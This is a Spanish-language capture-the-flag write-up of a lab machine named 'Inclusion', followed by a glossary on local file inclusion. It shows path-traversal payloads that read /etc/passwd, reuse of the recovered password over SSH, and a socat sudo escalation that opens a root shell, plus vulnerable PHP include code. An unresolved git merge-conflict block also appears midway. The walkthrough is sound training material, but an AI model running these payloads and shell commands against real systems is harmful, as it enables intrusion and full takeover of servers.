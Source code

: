 # Machine Inclusion

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.59.190
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
```

## Analisis de vulnerabilidades

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.59.190
```
- El resultado que me genero son unas URL que no sirven de nada

## Exploiting

- Al ver que la pagina web tiene un articulo de **LFI**, cuando doy click al botn me redirecciona a otra pagina en el cual tiene una descripcion de que es **LFI** pero su URL es esta:
```
http://10.10.59.190/article?name=lfiattack
```
- Entonces observe en la URL que hay un parámetro llamado **name**. Esto indica que el sitio web incluye información de otros lugares, lo que nos abre a un ataque de inclusión de archivos locales

- Para decirlo de otra manera. La página que estamos viendo está realmente vacía; sin embargo, incluye contenido de otra página. En el ejemplo, esa otra página es **rfiattack**, sin embargo, esto dependerá de qué enlace haya hecho clic.

- Las inclusiones de archivos locales son cuando esa entrada no se desinfecta correctamente, lo que nos permite manipular el enlace para abrir otros archivos. Probemos eso ahora con el **/etc/passwd** archivo, que nos dará una lista de cuentas de usuario en la máquina.

Haremos esto cambiando el bit al final de la URL, después del **=**. Sin embargo, no podemos simplemente cambiarlo para que sea **/etc/passwd**, porque eso solo se verá en el directorio actual , que obviamente no contendrá el archivo que estamos buscando. En su lugar, vamos a tener que volver al inicio del sistema de archivos y luego seguir desde allí.

Al final, tendremos una carga útil que se parece a esto **../../../../../../etc/passwd**. Observe las numerosas ocurrencias de **../**, que se utilizan para subir un directorio, lo que finalmente nos lleva de vuelta al directorio raíz del sistema de archivos. El número que use aquí no importa, siempre que haya suficientes para garantizar que volverá al principio.

- Entonces nuestro ataque final es este:
```
http://10.10.59.190/article?name=../../../../../../etc/passwd
```
- El resultado es el contenido de el **/etc/passwd** y hay un usuario y contraseña que es este:
```
falconfeast:rootpassword
```
- Pruebo esas contraseñas en **SSH** y ha funcionado
<<<<<<< HEAD
- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver que archivos se pueden ejecutar como root
=======

- Luego puedo sacar la bandera de **user.txt**
- Vamos a ejecutar el **sudo -l** para ver archivos se pueden ejecutar
>>>>>>> 7b7cd6683757345985266a0d1304f698979b6643
- El resultado fue este:
```
(root) NOPASSWD: /usr/bin/socat
```
- Entonces decido buscar algun exploit y encontre que primero en la shell de la victima ejecuto esto:
```
$ sudo socat TCP4-LISTEN:1234,reusaddr EXEC:"/bin/sh"
```
- En maquina de Kali debo escuchar ese puerto asì colocando la IP de la maquina victima:
```
$ sudo socat – TCP4:10.10.59.190:1234
```
- Ya con esto soy **root** y puedo sacar la bandera de root

## Glosario

- **RFI:** 

- **LFI:** Un atacante puede usar la Inclusión de Archivos Locales (LFI) para engañar a la aplicación web para que exponga o ejecute archivos en el servidor web. Un ataque LFI puede llevar a la divulgación de información, a la ejecución remota de código, o incluso a Cross-site Scripting (XSS). Típicamente, LFI ocurre cuando una aplicación usa la ruta de un archivo como entrada. Si la aplicación trata esta entrada como confiable, se puede usar un archivo local en la declaración de inclusión.

- La inclusión de archivos locales es muy similar a la inclusión de archivos remotos (RFI). Sin embargo, un atacante que utilice LFI sólo puede incluir archivos locales (no archivos remotos como en el caso de RFI).

- El siguiente es un ejemplo de código PHP que es vulnerable a LFI:
```
* Obtener el nombre de archivo de una entrada GET

Example - http://example.com/?file=filename.php

$file = $_GET[&#39;file&#39;];

* Incluir el archivo de forma insegura

Example - filename.php

include(&#39;directory/&#39; . $file);

```
- En el ejemplo anterior, un atacante podría hacer la siguiente petición. Engaña a la aplicación para que ejecute un script PHP como un shell web que el atacante logró subir al servidor web.
```
http://example.com/?file=../../uploads/evil.php
```
- En este ejemplo, el archivo cargado por el atacante será incluido y ejecutado por el usuario que ejecuta la aplicación web. Eso permitiría a un atacante ejecutar cualquier código malicioso del lado del servidor que desee.

- Este es el peor de los casos. Un atacante no siempre tiene la capacidad de subir un archivo malicioso a la aplicación. Incluso si lo hicieran, no hay garantía de que la aplicación guarde el archivo en el mismo servidor en el que existe la vulnerabilidad LFI. Incluso entonces, el atacante aún necesitaría conocer la ruta del disco del archivo cargado.

- Incluso sin la capacidad de cargar y ejecutar código, una vulnerabilidad de Inclusión de Archivos Locales puede ser peligrosa. Un atacante todavía puede realizar un ataque de Directory Traversal / Path Traversal usando una vulnerabilidad LFI como sigue.
```
http://example.com/?file=../../../../etc/passwd
```
- En el ejemplo anterior, un atacante puede obtener el contenido del archivo /etc/passwd que contiene una lista de usuarios en el servidor. Del mismo modo, un atacante puede aprovechar la vulnerabilidad de Directory Traversal para acceder a los archivos de registro (por ejemplo, access.log o error.log de Apache), el código fuente y otra información confidencial. Esta información puede utilizarse luego para adelantar un ataque.

- **/usr/bin/socat:**

## Investigación

- **exploit /usr/bin/socat:** https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/

- https://gtfobins.github.io/gtfobins/socat/

- **shell TTY Python:** https://netsec.ws/?p=337

## Explotación maquina Inclusion

- https://muirlandoracle.co.uk/2020/03/14/inclusion-write-up/